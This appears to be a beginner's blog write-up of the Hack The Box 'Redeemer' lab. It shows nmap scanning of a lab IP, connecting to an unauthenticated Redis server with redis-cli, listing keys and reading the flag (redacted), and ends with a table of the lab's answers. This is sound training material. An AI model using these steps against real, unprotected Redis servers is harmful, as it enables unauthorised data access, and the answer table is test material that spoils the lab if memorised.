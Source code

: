 # 🔓 Redeemer | Hack The Box

Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🌐 Step 1: Connect to the HTB Network

Start by connecting to the Hack The Box VPN using the `htb.ovpn` file:

```bash
openvpn htb.ovpn
```

Wait for the message:

```
Initialization Sequence Completed
```

Once you're connected, spawn the target machine. My target machine IP was:

```
10.129.250.87
```

---

## 🔍 Step 2: Scan the Target

Run a full TCP port scan to identify open ports:

```bash
nmap -p- 10.129.250.87
```

### 📄 Nmap Output (Shortened):

```
PORT      STATE    SERVICE
6286/tcp  filtered unknown
6379/tcp  open     redis
14614/tcp filtered unknown
15032/tcp filtered unknown
19797/tcp filtered unknown
35460/tcp filtered unknown
51988/tcp filtered unknown
58252/tcp filtered unknown
```

Port `6379` is open and running **Redis**.

---

## 💾 Step 3: Connect to Redis

Use the `redis-cli` utility to connect:

```bash
redis-cli -h 10.129.250.87
```

Once connected, get detailed server info:

```bash
info
```

### 🔢 Redis Version:

```
redis_version:5.0.7
```

---

## 🔑 Step 4: Explore the Database

Check the number of keys:

```bash
keys *
```

### 🗝️ Output:

```
1) "flag"
2) "temp"
3) "stor"
4) "numb"
```

Retrieve the value of the flag:

```bash
get flag
```

🎉 **Flag:**

```
<FLAG REDACTED>
```

---

## ✅ Summary

| Task           | Answer               |
| -------------- | -------------------- |
| Open port      | `6379`               |
| Service        | `redis`              |
| DB type        | `In-memory Database` |
| CLI tool       | `redis-cli`          |
| Host flag      | `-h`                 |
| Info command   | `info`               |
| Version        | `5.0.7`              |
| Select DB      | `select`             |
| Number of keys | `4`                  |
| View keys      | `keys *`             |
| 🎯 Flag        | `<FLAG REDACTED>`    |

---

---
